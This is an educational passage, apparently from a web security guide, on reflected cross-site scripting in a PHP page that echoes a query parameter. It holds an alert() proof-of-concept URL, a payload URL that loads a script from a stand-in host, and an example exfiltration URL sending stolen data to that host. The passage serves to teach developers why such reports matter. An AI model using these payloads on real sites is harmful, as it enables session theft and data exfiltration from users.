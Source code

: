 https://example.com/test.php?val=123

They will then see: "The value you entered is: 123" output into their
browser. Probably the way the application was designed to work.

If someone visits the following URL:

https://example.com/test.php?val=\<script\>alert('Proof this is an
XSS');\</script\>

They will see the following in the browser: "The value you entered is:"
and they will also see an alert box pop up saying "Proof this is an
XSS".

Why is unfiltered output dangerous?

A demonstration showing an alert box doesn't seem like much of a threat.
If you don't fully understand the impact of an XSS vulnerability and
someone reports this issue to you with an alert() box as a demonstration
of the vulnerability, you might be inclined to not take it seriously.
How can proof that you can execute javascript be proof of a serious
security problem?

When an analyst sends you an alert() box as proof of a security
vulnerability, they are showing that they can execute arbitrary
javascript code in the browser. What they are really demonstrating is
that by sending that URL to someone else, they can get that other person
to execute arbitrary javascript in a browser.

One version of an exploit might look something like this:

https://example.com/test.php?val=\<script
src="http://badsite.com/badscript.js"\>\</script\>

The attacker will send that link to a victim. The steps are as follows:

-   The victim clicks the link and visits the site. Let's assume they're
    already signed into the website with administrator level access.

-   The link and the XSS vulnerability cause the script to load from an
    external website into the target web page.

-   The script will have full access to the browser DOM environment
    including any HTTP cookie not protected by the HttpOnly flag.

-   The script performs a malicious action as the signed-in user. It
    also steals data from the website accessible to the signed in user
    (e.g. private messages the user has received) and sends it to the
    attacker. The data can be sent in a variety of ways, but one way
    could be to load an image like this from an external website:
    http://badsite.com/badPretendImage.jpg?stolendata=secretDataValues.
    The badPretendImage.jpg is actually a script that serves up an image
    but also stores any data received.

That is the basic mechanism of exploitation for an XSS vulnerability: An
attacker finds a way to get a victim to load their javascript using an
XSS vulnerability in the website. They use that to steal data from
browsers.
